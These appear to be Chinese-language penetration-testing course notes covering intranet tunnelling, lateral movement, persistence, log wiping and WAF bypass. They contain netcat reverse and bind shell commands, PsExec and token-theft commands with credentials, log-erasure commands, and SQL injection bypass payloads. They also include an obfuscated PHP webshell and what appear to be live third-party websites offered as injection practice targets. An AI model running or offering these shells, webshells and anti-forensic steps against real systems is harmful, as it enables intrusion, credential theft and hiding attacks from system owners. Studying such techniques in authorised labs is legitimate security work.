登录后，如下所示，下载对应系统的安装包

https://dashboard.ngrok.com/get-started/setup


记住这个Your Authtoken，每个人有一个专属的认证token


#### 二、运行ngrok

做下ngrok配置

```
ngrok config add-authtoken 2ANd6OYJXqrT3E0YT5cON84xQHd_2iAGxxxxxxDB8s88HyurdBB
```


在内网服务器执行ngrok.exe http 80，即实现将内网80端口映射到公网


访问内网资源

http://192.168.200.128/dvwa/login.php


访问ngrok公网资源

https://0dc2-61-163-107-10.jp.ngrok.io/dvwa/login.php


## 内网代理工具

### nc反弹shell

```
方法1、REMOTE主机绑定SHELL
在公网监听
nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe
或者
nc -l -p 5555 -t -e cmd.exe
在内网主动建立连接
nc -nvv 192.168.153.138 5555
-t是通过telne模式执行 cmd.exe 程序，可以省略。
讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口
方法2、REMOTE主机绑定SHELL并反向连接
在公网监听
nc -lp 5555
在内网机器反弹
nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354
或者
nc -t -e cmd 192.168.153.140 5555
讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口
```

### termite工具

多层内网穿透工具，特别是对于多级内网主机不出网的情况


### ssh代理


### 常见的http隧道

==**reGeorg**==

==**frp**==

reDuh

tunnal

abptts

用到http隧道的场景：

1、目标主机不出网

2、防火墙映射内网服务器，仅开放http的如80端口


## 端口复用

针对这种目标既不出网，又做了端口映射的情况。同理这时候也可以建立http隧道


示例：要将最初瞄准端口TCP-80的传入流量转移到另一个TCP端口，例如8080，请执行以下操作：

c:\> divertTCPconn 80 8080


## 内网横向渗透


### 流量监听工具

wireshare

### arp欺骗

Linux平台：

> ettercap

windows平台：

> 1. Foca evail
> 2. Netfuck


### 密码分析工具

hash-identifier


### 密码爆破

常见的服务协议

> smb
> telnet
> ftp
> 3389
> mssql
> mysql
> 等等

常用爆破工具

> hydra
>
> Medusa
>
> hscan
>
> phpmyadmin

离线密码破解

> hashcat
>
> john
>
> 
>
> 

压缩包密码爆破

> fcrackzip
>
> rarcrack
>
> python脚本破解

wifi密码破解

> https://blog.csdn.net/m0_65244586/article/details/125274473


## shell控制连接

当通过爆破目标smb账号密码后，目标没有开启3389、telnet等，**可以通过PsExec工具创建管道调用cmd**

同时可以利用 incognito 劫持获取最高权限，类似于msf里盗取token

```
获取明文密码可以用getpss.exe
获取账号hash可以用pwdum7
通过得到的账号密码信息链接跳板机
psexec.exe \\192.168.200.11 -u administrator -p 123123 cmd
psexec.exe \\192.168.200.11 -u administrator -p 123123 cmd
incognito.exe list_tokens -u  查看本机可以利用的token
incognito.exe -h 192.168.200.11 -u admin -p 123123 list_tokens -u  查看远程机器可以利用的token
C:\incognito2>incognito.exe -h 192.168.200.11 -u admin -p 123123 execute -c "NT
AUTHORITY\SYSTEM" cmd.exe  调用远程机器的本地系统权限的cmd.exe
```

linux 下通过==smbclient==访问windows共享目录


## 本地rdp密码读取

查看 rdp链接记录

> Cmdkey /list

使用mimikatz进行读取密码操作


# day35内网域渗透


PTH攻击

黄金票据

白银票据

ms14-068漏洞

热土豆提权


cs工具配合使用


# day36权限维持

## windows

### 账号后门

1、添加隐藏账户

2、克隆管理员账号注册表信息到guest用户，并启用

### windows辅助程序后门

如shift后门

辅助后门：即用cmd替换在未登陆情况下可调用的windows辅助程序,如粘滞键,屏幕键盘,放大镜等

### 木马后门

利用cs创建一个会话，使目标机隔一段时间连接一次cs服务器

### scheduleme计划任务

在msf获取一个meterpreter后，借助nc配合scheduleme来进行权限维持

### 黄金票据

如果是域环境，可以利用导入黄金票据进行权限维持。详见【域渗透-白银票据和黄金票据的利用】

https://blog.csdn.net/m0_65244586/article/details/123082931


## Linux

### 上传ssh公钥

在攻击端生成密钥对，将公钥复制到目标~/.ssh/authorized_keys文件，直接私钥连接（redis未授权漏洞）。

详见【redis未授权漏洞复现】->导入ssh公钥

https://blog.csdn.net/m0_65244586/article/details/125061251


### 装rootkit

利用开源的rootkit，安装后门


### 添加用户

参考【Linux提权】章节


### 写入计划任务

详见【redis未授权漏洞复现】->计划任务反弹shell

https://blog.csdn.net/m0_65244586/article/details/125061251


# day37痕迹清理

## windows

windows日志主要分为三部分日志，如下：

> 系统日志（SysEvent）
>
> 应用程序日志（AppEvent）
>
> 安全日志（SecEvent）

常见路径

```
C:\Documents and Settings\Administrator\Recent	最近访问过的文件
C:\Documents and Settings\Administrator\Documents	我的文档
C:\Documents and Settings\Administrator\Desktop	桌面
C:\Program Files	安装路径
％systemroot%\system32\config	DNS日志默认位置
％systemroot%\system32\config\SecEvent.EVT	安全日志文件
％systemroot%\system32\config\sysEvent.EVT	系统日志文件
％systemroot%\system32\config\AppEvent.EVT	应用程序日志文件
％systemroot%\system32\logfiles\msftpsvc1	FTP日志默认位置
％systemroot%\system32\logfiles\w3svc1	WWW日志默认位置
```

借助msf模块清理

```
meterpreter > run event_manager -i
```

借助cs插件清除

另外可以借助一些小工具进行清理痕迹


## Linux

Linux常见日志位置

```
~/.viminfo	vim操作记录
~/.bash_history	历史命令记录
/var/log/auth.log	用户登录和使用的权限机制等日志
/var/log/boot.log	系统启动日志
/var/log/user.log	用户信息日志
/var/log/btmp	登录失败信息
/var/log/yum.log	信息
/var/log/cron	计划任务日志	#/etc/crontab 计划任务位置
/var/log/secure	安全日志，例如ssh登录
/var/log/messages	内核消息及各种应用程序的公共日志信息，包括启动、I/O错误、网络错误
/var/log/wtmp或/var/log/utmp		登录日志
```

通过手动清除，例如vim对应日志清除，或者 

```
cat /dev/null > /var/log/messages	#后面跟需要清除日志路径
```

另外也可以借助工具Logtamper清除


## Web日志  

如apache日志，找到对应日志删除即可

```
/var/log/httpd
```


其它iis、ngin同apache类似


# day38bypassWAF

## 扫描&访问

可以在修改sqlmap默认UA，在"c:\sqlmap\lib\core\option.py"下，如果没有可以添加一个这样的函数


## sql注入


另外D盾bypass

https://mp.weixin.qq.com/s/48VrvNlx30WaLkjgmJzTfg

order by

```
 order/*%26%67%74%3b*/by 40
```

http://www.smkhi.cn/ShowNews.asp?id=62
http://www.smk.hk/ShowNews.asp?id=63


### 复现

下面实战以下上面是不是有效，当前时间是2022-06-04 16:47

下载最新的安全狗iis_v4.0


#### 1、尝试提交非标准入口点

正常提交 http://192.168.200.134:8006/showproducts.php?id=13


当提交 http://192.168.200.134:8006/showproducts.php?id=13 and 1=1 --+

提示被狗拦住了


尝试提交非标准入口点，waf未拦截

```
http://192.168.200.134:8006/showproducts.php?aid=122%23/*&id=13 and 1=2&bid=111*/
```


order by判断出字段是10

```
http://192.168.200.134:8006/showproducts.php?aid=122%23/*&id=13 order by 10&bid=111*/
```


2和8处回显


查看当前数据库、用户


#### 2、使用内联注释组合绕过

```
http://192.168.200.134:8006/showproducts.php?id=13/*!22222order*/%0a/*%23select*//*!22222%0aby*//*!22222%0a10*/
```


```
http://192.168.200.134:8006/showproducts.php?id=-13/*!22222union*/%0a/*%23select*//*!22222%0aSELECT*//*!22222%0a1,2,3,4,5,6,7,8,9,10*/
```


复习下常用语句

```
常用的判断语句
判断是否存在注入点   and 1=1 --+
                   and 1=2 --+ 
判断字段数           order by
查库   select schema_name from information_schema.schemata
查表   select table_name from information_schema.tables where table_schema=库名
查字段  select column_name from information_schema.columns where table_schema=库名 and table_name=表名   注：这里的库名、表名常用十六进制表示
查字段值  select 字段名 from 表名

常用查询语句：
Select user()        #当前用户
Select database()    #当前数据库
Select version()     #数据库版本
Select @@datadir   #数据库路径
Select @@version_compile_os  #操作系统版本
```


sql注入过waf学习实例
http://www.smkhi.cn/ShowNews.asp?id=62'	//d盾
http://www.smk.hk/ShowNews.asp?id=63
http://www.shytzh.cn/List.asp?C-3-14%27%20and%203=3.html#ad-image-0	//d盾


## webshell bypass


### 一句话过waf

动态传参马

```php
<?php
$a = chr(97).chr(115); //as
$b = chr(115).chr(101); //se
$c = $_GET['f']; //xx.php?f=rt
$d = $a.$b.rand(1111,9999).$c;
$e = substr($d,0,4).substr($d,8,10); 
$e($_POST['a']);
?>
```


### 大马免杀

用大马，使用==站马分离==（有点类似于远程文件包含，但不是，这里是直接调用远程vps上的大马）

把下面木马放到目标服务器，然后加载远程vps的大马


adminer脱裤

## 上传过waf


以及修改bannery信息-----，使前后不相等


## xss bypass

替换标签

标签编码


## msf bypass

YouTube搜索 shellcode bypass

GitHub shellcode bypass


## 提权

特斯拉

msf提权模块

cs提权模块和msf互传session提权

通过meterpreter关闭安全狗等防火软件